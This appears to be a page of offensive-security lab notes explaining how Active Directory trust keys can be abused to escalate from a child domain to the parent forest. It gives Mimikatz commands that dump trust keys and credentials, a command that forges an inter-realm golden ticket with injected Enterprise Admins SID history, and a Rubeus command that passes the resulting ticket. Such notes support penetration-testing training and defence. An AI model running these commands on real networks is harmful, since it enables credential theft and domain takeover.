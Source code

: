 # Trusts

## Trust Flow

The Diagram below shows how Client from trusted domain can ask for access to other Domain's service.\


We can see that in order to allow access to the service hosted on Domain B, a TGT is returned within a TGS-REP signed with the Inter-Realm Trust Key.

<img src="../../.gitbook/assets/file.excalidraw (2).svg" alt="" class="gitbook-drawing">

## Exploitation

It is possible to exploit the TGS REQ (marked red in the diagram above) by forging new TGT using the trust key.

### Get the trust key

The trust key is required to forge the Inter-Realm TGT.

```powershell
Invoke-Mimikatz -Command '"lsadump::trust /patch"'
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\mcorp$"'
```

### Forge the Inter-Realm TGT

{% code overflow="wrap" %}
```powershell
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-5-21-335606122-960912869-3279953914-519 /rc4:e9ab2e57f6397c19b62476e98e9521ac /service:krbtgt /target:moneycorp.local /ticket:C:\AD\Tools\trust_tkt.kirbi" "exit"
```
{% endcode %}

| Options                            |                                                         |
| ---------------------------------- | ------------------------------------------------------- |
| <pre><code>/domain:
</code></pre>  | FQDN of the current domain                              |
| <pre><code>/sid:
</code></pre>     | SID of the current domain                               |
| <pre><code>/sids
</code></pre>     | SID of the enterprise admins group of the parent domain |
| <pre><code>/rc4:
</code></pre>     | RC4 of the trust key                                    |
| <pre><code>/user:
</code></pre>    | User to impersonate                                     |
| <pre><code>/service:
</code></pre> | Target service in the parent domain                     |
| <pre><code>/target:
</code></pre>  | FQDN of the parent domain                               |
| <pre><code>/ticket
</code></pre>   | Path to save the ticket                                 |

### Request the TGS and pass it

{% code overflow="wrap" %}
```powershell
Rubeus.exe asktgs /ticket:C:\AD\Tools\trust_tkt.kirbi /service:cifs/mcorp-dc.moneycorp.local /dc:mcorpdc.moneycorp.local /ptt
```
{% endcode %}
